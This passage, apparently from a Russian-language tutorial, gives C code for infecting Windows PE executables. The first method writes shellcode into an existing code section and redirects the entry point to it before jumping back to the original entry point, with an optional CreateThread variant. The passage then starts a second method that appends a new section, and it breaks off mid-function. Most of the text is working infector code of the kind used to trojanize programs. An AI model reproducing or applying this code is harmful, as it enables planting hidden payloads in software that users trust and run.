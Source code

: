             }
        }
    }

    // Сдвиг для вставки
    injection_xcode_offset += 0x4;

    // Сохранение и подмена OEP
    uint32_t original_entry_point =
        nt_header->nt_optional_header.address_of_entry_point
        + nt_header->nt_optional_header.image_base;

    nt_header->nt_optional_header.address_of_entry_point =
        codeSect->header.VirtualAddress + injection_xcode_offset;

    // Cхема проста: mov eax, <OEP>; jmp eax; + шеллкод
    // При установке флага thread_flag добавляется вызов CreateThread
    return 0;
}

При установке флага thread_flag шелл не выполняется напрямую, а запускается в новом потоке. Для этого в инъект код добавляются инструкции, которые создают поток, а затем возвращают управление к оригинальной точке входа: 

if (thread_flag) {
    memcpy(codeSect->data + injection_xcode_offset, peb_create_thread_mov_ecx, sizeof(peb_create_thread_mov_ecx));
    memcpy(codeSect->data + injection_xcode_offset + sizeof(peb_create_thread_mov_ecx) - 1,
           peb_create_thread_hex_threadfunc, sizeof(peb_create_thread_hex_threadfunc));
    // Далее – вставка инструкций вызова и возврата к OEP.
}

Способ 2: Создание новой секции

Иногда удобнее дописать новую секцию, не залезая в существующие. Для этого увеличивается number_of_sections в pe_file_header, резервируется место в конце под новую секцию, куда прописывается шеллкод. Далее EntryPoint переключается, чтобы сначала выполнялся инъект код, а потом возвращался к оригинальному OEP. Код определяет последнюю секцию, вычисляет смещения, выравнивает их по file_alignment и section_alignment, обновляет size_of_image и пишет туда шелл. Пример вставки новой секции для x32 бинаря:

int pe_infect_new_section(pe_nt_header* nt_header, char** file_data, uint32_t* file_size,
                          list_pe_section_t sections, unsigned char* xcode,
                          uint32_t xcode_size, const char* new_section_name, int thread_flag)
{
    if (!nt_header || !sections || !xcode || *xcode == '\0' ||
        !new_section_name || *new_section_name == '\0') {
        return -1;
    }

    // Поиск исполняемой;последней секции
    uint32_t highest_raw_offset = 0, highest_raw_size = 0;
    uint32_t highest_virtual_offset = 0, highest_virtual_size = 0;
    list_pe_section_t curSect = sections;
    list_pe_section_t codeSect = NULL;
    list_pe_section_t lastSect = NULL;
